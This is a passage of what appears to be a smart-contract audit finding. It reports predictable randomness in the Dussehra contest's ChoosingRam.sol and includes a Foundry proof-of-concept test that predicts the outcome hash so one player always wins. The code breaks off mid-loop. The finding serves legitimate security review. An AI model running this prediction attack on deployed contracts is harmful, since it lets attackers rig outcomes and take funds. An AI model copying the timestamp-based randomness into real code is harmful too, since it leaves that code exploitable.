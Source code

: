 ## Vulnerability Details

Using `block.timestamp` as a source of randomness is commonly advised against, as the outcome can be manipulated by calling contracts. Also, for some chains like zkSync `block.prevrandao` is a [constant value](https://docs.zksync.io/build/developer-reference/ethereum-differences/evm-instructions#difficulty-prevrandao). This will allow the users to predict the result of the calculated number in [Line 52](https://github.com/Cyfrin/2024-06-Dussehra/blob/9c86e1b09ed9516bfbb3851c145929806da75d87/src/ChoosingRam.sol#L52) of `ChoosingRam.sol`: `uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, msg.sender))) % 2`. This will give them the chance to execute a challenge only if they are the winners.

## Proof of Concept

The following code demonstrates how an attack can be executed.

```js
function test_increaseValuesOfParticipantsIsNotRandom() public {
    Dussehra dussehra;
    RamNFT ramNFT;
    ChoosingRam choosingRam;
    address organiser = makeAddr("organiser");
    address player1 = makeAddr("player1");
    address player2 = makeAddr("player2");

    vm.startPrank(organiser);
    ramNFT = new RamNFT();
    choosingRam = new ChoosingRam(address(ramNFT));
    dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));
    ramNFT.setChoosingRamContract(address(choosingRam));
    vm.stopPrank();

    vm.startPrank(player1);
    vm.deal(player1, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    vm.stopPrank();

    // the second player will predict the outcomes and
    // will become the Ram
    vm.startPrank(player2);
    vm.deal(player2, 1 ether);
    dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
    uint256 winnings = 0;
    uint256 time = 1;
    // this loop will be executed until the second player
    // wins 5 times
    while (winnings < 5) {
        vm.warp(++time);
        if (
            uint256(
                keccak256(
                    abi.encodePacked(
                        block.timestamp,
                        block.prevrandao,
                        player2
                    )
                )
            ) %
                2 ==
            0
        ) {
            // the following block will be executed only if the user
            // is gonna win the challenge
            ++winnings;
```